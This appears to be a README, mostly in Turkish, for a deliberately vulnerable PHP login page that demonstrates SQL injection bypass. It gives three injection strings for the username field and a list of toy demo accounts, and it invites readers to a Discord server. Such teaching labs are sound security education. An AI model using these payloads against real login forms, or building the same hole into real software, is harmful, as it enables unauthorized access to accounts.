 # SQL Injection Login Bypass Example

Discord sunucuma beklerim 

Discord:https://discord.gg/WRWEk6jKG7

Bu, SQL enjeksiyonu açıklarının bir giriş sayfasını atlamanın nasıl kullanılabileceğini göstermek için kullanılabilecek PHP ile yazılmış basit bir uygulamadır.

### Input
```
username: admin' -- // 
password: anythinghere

username: ' or 1 -- // 
password: anythinghere

username: suresh' -- // 
password: anythinghere
```
### Valid accounts
```
admin:admin
bob:password
suresh:troll
ramesh:troll
alice:alice1
voldemort:horcrux
frodo:frodo
hodor:hodor
rhombus:rhombus
```

